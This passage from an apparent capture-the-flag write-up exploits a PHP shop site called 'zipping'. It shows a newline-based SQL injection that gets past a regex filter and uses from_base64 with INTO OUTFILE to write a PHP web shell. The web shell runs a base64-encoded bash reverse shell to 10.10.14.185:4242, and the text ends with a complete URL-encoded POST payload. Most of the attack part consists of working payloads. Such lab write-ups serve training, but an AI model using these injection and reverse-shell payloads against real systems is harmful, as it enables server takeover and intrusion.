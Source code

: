 And now we have working local vesion of the site to play
```bash
php -S localhost:8080 -f index.php
[Sun Nov  5 17:48:20 2023] PHP 8.2.12 Development Server (http://localhost:8080) started
[Sun Nov  5 17:48:23 2023] [::1]:34620 Accepted
[Sun Nov  5 17:48:23 2023] [::1]:34620 [200]: GET /index.php
[Sun Nov  5 17:48:23 2023] [::1]:34620 Closing
```

This is what we wanna achieve, but executed on our local setup, note that the outfile path isn't exatly the same:
```sql
MySQL [zipping]> select from_base64('cHJvZHVjdHM=') into outfile '/var/lib/mysql-files/shell.php';
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%0A' at line 1
Query OK, 1 row affected (0.002 sec)
```
```bash
bash-4.4# cat shell.php
products
```

Preparing a shell
```bash
cat shell.sh
bash -i >& /dev/tcp/10.10.14.185/4242 0>&1
```
```bash
cat shell.sh|base64|pbcopy
```
```bash
cat shell.php
<?php exec("printf YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODUvNDI0MiAwPiYxCg== | base64 -d | bash"); ?>
```
```bash
cat shell.php|base64 -w0|pbcopy
```
```bash
PD9waHAgZXhlYygicHJpbnRmIFltRnphQ0F0YVNBK0ppQXZaR1YyTDNSamNDOHhNQzR4TUM0eE5DNHhPRFV2TkRJME1pQXdQaVl4Q2c9PSB8IGJhc2U2NCAtZCB8IGJhc2giKTsgPz4K
```

The newline character isn't part of the preg filter, so we should be able to use this to bypass the filter altogether, then use from_base64 to bring our reverse shell, and into outfile to write into /var/li/mysql since this is running as root
```bash
%0A';select from_base64('PD9waHAgZXhlYygicHJpbnRmIFltRnphQ0F0YVNBK0ppQXZaR1YyTDNSamNDOHhNQzR4TUM0eE5DNHhPRFV2TkRJME1pQXdQaVl4Q2c9PSB8IGJhc2U2NCAtZCB8IGJhc2giKTsgPz4K') into outfile '/var/lib/mysql/shell.php'; --1
```
```bash
%0A'%3bselect+from_base64('PD9waHAgZXhlYygicHJpbnRmIFltRnphQ0F0YVNBK0ppQXZaR1YyTDNSamNDOHhNQzR4TUM0eE5DNHhPRFV2TkRJME1pQXdQaVl4Q2c9PSB8IGJhc2U2NCAtZCB8IGJhc2giKTsgPz4K')+into+outfile+'/var/lib/mysql/shell.php'%3b+--1
```
```bash
quantity=1&product_id=%0A'%3bselect+from_base64('PD9waHAgZXhlYygicHJpbnRmIFltRnphQ0F0YVNBK0ppQXZaR1YyTDNSamNDOHhNQzR4TUM0eE5DNHhPRFV2TkRJME1pQXdQaVl4Q2c9PSB8IGJhc2U2NCAtZCB8IGJhc2giKTsgPz4K')+into+outfile+'/var/lib/mysql/shell.php'%3b+--1
```
